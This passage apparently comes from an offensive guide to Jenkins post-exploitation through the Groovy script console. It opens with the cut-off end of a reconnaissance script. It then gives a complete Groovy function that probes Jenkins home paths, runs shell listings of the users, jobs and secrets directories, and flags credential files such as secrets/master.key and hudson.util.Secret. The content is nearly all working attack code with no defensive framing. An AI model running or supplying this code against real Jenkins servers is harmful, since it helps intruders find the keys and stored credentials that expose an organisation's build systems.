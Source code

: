 ```groovy
    }
}

// Execute system reconnaissance
systemRecon()
```

#### File System Exploration
```groovy
// Jenkins file system exploration and sensitive data discovery
def exploreJenkinsFiles() {
    def jenkinsHome = "/var/lib/jenkins"  // Default Linux path
    
    // Alternative paths to check
    def paths = [
        "/var/lib/jenkins",
        "/var/jenkins_home",
        "/opt/jenkins",
        "/home/jenkins",
        System.getProperty("JENKINS_HOME")
    ]
    
    paths.each { path ->
        if (new File(path).exists()) {
            println "[+] Jenkins home found: $path"
            
            // List important directories
            ["users", "jobs", "secrets", "plugins", "logs"].each { dir ->
                def fullPath = "$path/$dir"
                if (new File(fullPath).exists()) {
                    println "[+] Directory exists: $fullPath"
                    
                    // List contents (limit output)
                    def result = "ls -la $fullPath | head -20".execute()
                    result.waitFor()
                    println result.text
                }
            }
            
            // Look for sensitive files
            ["config.xml", "secrets/master.key", "secrets/hudson.util.Secret"].each { file ->
                def filePath = "$path/$file"
                if (new File(filePath).exists()) {
                    println "[!] Sensitive file found: $filePath"
                }
            }
        }
    }
}

exploreJenkinsFiles()
```
